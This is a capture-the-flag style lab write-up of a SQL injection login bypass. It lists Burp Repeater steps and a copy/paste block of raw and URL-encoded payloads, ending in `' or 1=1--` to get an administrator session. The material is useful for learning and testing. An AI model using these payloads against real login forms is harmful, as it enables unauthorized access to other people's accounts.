 # SQL injection vulnerability allowing login bypass

A concise write‑up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Log in as the administrator** by exploiting SQL injection in the login flow.

---

## ✅ My Exact Steps (Verbatim)

1. **understanding the goal: logging in for the administrator.**

2. **here we we'll go looking for the login page, (if that wont work we might expand our surface)**

3. **extracting the /login path and moving it into the burp repeater.**

4. **we'll set the user to administrator and try to inject the password:**
   ```txt
   csrf=4DwnTMWUAdaq4ZvYdmrNVvGd366G4UYD&username=administrator&password=dsadsadsadsada'
   ```

5. **we get 500 internal server error, lets try fixing: `password=dsadsadsadsada''` -> normal res.**

6. **in SQL '' actually equals to ' as literal character. lets try commenting the rest: `password=dsadsadsadsada'--;` Also works.**

7. **lets try triggering true statement for our sql: `password=dsadsadsadsada'+or+1=1--;` -> this gives us a session.**
   ```http
   Set-Cookie: session=7ynTHjp79jxQyPCXIM7emnjp1t6gUxh6; Secure; HttpOnly; SameSite=None
   ```

8. **lets go on /login, intercept the request and do it in real time.**

9. **Lab still isnt marked as solved.. lets try modifiyingh the email.**

10. **Lab solved!**

---

## 🧠 Minimal Additions (Why This Works)

- The backend likely builds a query similar to:
  ```sql
  SELECT * FROM users
  WHERE username = 'administrator' AND password = '<USER_INPUT>';
  ```
  Injecting a trailing single quote (`'`) breaks the string literal and causes a **500 error** (syntax error).

- In SQL, to represent a **literal single quote** inside a quoted string, you use **two single quotes** (`''`). That’s why `password=...''` restores normal parsing.

- Using `--` starts a **single‑line SQL comment** (in many DBs). Everything to the end of the line is ignored.
  - Many apps append **more SQL** after your input. Adding `--` (often with a trailing space, encoded as `+`) neutralizes that remainder.
  - Example (URL form encoding): `password=abc%27--+` equals `password=abc'-- `.

- Making the condition always true with `OR 1=1` while commenting the remainder bypasses authentication and returns a **valid session** for the first matching row (often the admin).

- If a lab isn’t marked as solved immediately, perform the exploit through the **live UI flow** (Step 8) and/or trigger a required post‑login action (e.g., **modify email**) as the lab expects (Step 9).

---

## 🔧 Payloads I Used (Copy/Paste)

**Human‑readable (Burp Repeater form body):**
```txt
username=administrator&password=dsadsadsadsada'
username=administrator&password=dsadsadsadsada''
username=administrator&password=dsadsadsadsada'-- 
username=administrator&password=dsadsadsadsada' or 1=1-- 
```

**URL‑encoded (safe to paste in raw body):**
```txt
username=administrator&password=dsadsadsadsada%27
username=administrator&password=dsadsadsadsada%27%27
username=administrator&password=dsadsadsadsada%27--%2B
username=administrator&password=dsadsadsadsada%27%20or%201%3D1--%2B
```

> Notes:
> - `+` represents a space in URL‑encoded query strings; in bodies, `%20` is explicit space.
> - Ensure there’s at least one space after `--` (e.g., `-- `), often encoded as `+` or `%20`.

---

## 🏁 Result
- Successful **admin session** obtained via password‑field SQLi.
- After replaying via UI and completing the expected action, **Lab Solved. ✅**
